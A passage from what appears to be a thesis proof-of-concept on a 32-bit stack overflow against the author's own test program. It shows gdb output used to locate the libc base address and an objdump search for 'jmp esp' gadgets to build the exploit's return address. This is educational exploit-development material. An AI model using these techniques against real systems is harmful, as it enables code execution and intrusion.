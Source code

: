 The base address of the `libc` library can be obtained e.g. with gdb as follows:

```
poc$ gdb target/prog_32b
(...)
gef➤  set args hola
gef➤  b* main
Breakpoint 1 at 0x62e: file prog.c, line 18.
gef➤  r
(...)
gef➤  info proc map
process 2430
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	0x56555000 0x56556000     0x1000        0x0 /home/test/Master/TFM/poc/target/prog_32b
	0x56556000 0x56557000     0x1000        0x0 /home/test/Master/TFM/poc/target/prog_32b
	0xf7ddf000 0xf7fb1000   0x1d2000        0x0 /lib32/libc-2.27.so			<----------------------- base address: 0xf7ddf000
	0xf7fb1000 0xf7fb2000     0x1000   0x1d2000 /lib32/libc-2.27.so
	0xf7fb2000 0xf7fb4000     0x2000   0x1d2000 /lib32/libc-2.27.so
	0xf7fb4000 0xf7fb5000     0x1000   0x1d4000 /lib32/libc-2.27.so
	0xf7fb5000 0xf7fb8000     0x3000        0x0 
	0xf7fd0000 0xf7fd2000     0x2000        0x0 
	0xf7fd2000 0xf7fd5000     0x3000        0x0 [vvar]
	0xf7fd5000 0xf7fd6000     0x1000        0x0 [vdso]
	0xf7fd6000 0xf7ffc000    0x26000        0x0 /lib32/ld-2.27.so
	0xf7ffc000 0xf7ffd000     0x1000    0x25000 /lib32/ld-2.27.so
	0xf7ffd000 0xf7ffe000     0x1000    0x26000 /lib32/ld-2.27.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]

```

As it can be observed above, the `libc` library is allocated in memory starting from the address `0xf7ddf000`. Next, we need to determine the offset of a `jmp esp` instruction. This can be done, for instance, with `objdump` as follows:

The operation code for the   `jmp esp`  instruction is `ff e4`. Thus, we can filter the instructions by this value:

```
poc$ objdump -D /lib32/libc-2.27.so | grep "ff e4" 
  1778ab:	ff e4                	jmp    *%esp
  1835fb:	ff e4                	jmp    *%esp
  18360b:	ff a4 a3 fb ff e4 a3 	jmp    *-0x5c1b0005(%ebx,%eiz,4)
  183aeb:	ff e4                	jmp    *%esp
  183afb:	ff a4 a9 fb ff e4 a9 	jmp    *-0x561b0005(%ecx,%ebp,4)
  183d6f:	ff e4                	jmp    *%esp
  183f97:	ff e4                	jmp    *%esp
  (...)
```

We can simply grab the first one: `0x1778ab`. At this point, we already know the value for the `addr_ret` variable.
